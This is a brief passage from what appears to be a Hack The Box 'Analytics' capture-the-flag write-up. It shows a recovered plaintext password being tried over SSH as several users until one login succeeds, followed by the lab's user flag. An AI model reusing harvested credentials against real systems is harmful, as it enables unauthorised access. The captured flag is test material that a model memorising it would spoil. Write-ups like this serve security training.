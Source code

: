 ![](/assets/obsidian/b768a4f19689b0b20ab237cfd8974dff.png)\

Check password reuse

```bash
┌──(bravosec㉿fsociety)-[~/htb/Analytics]
└─$ cssh metabase@analytical.htb 'An4lytics_ds20223#'
Warning: Permanently added 'analytical.htb' (ED25519) to the list of known hosts.
Permission denied, please try again.

┌──(bravosec㉿fsociety)-[~/htb/Analytics]
└─$ cssh root@analytical.htb 'An4lytics_ds20223#'
Warning: Permanently added 'analytical.htb' (ED25519) to the list of known hosts.
Permission denied, please try again.

┌──(bravosec㉿fsociety)-[~/htb/Analytics]
└─$ cssh metalytics@analytical.htb 'An4lytics_ds20223#'
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ cat user.txt
b6b8c1d17e3deeb761923c27068c2394
```
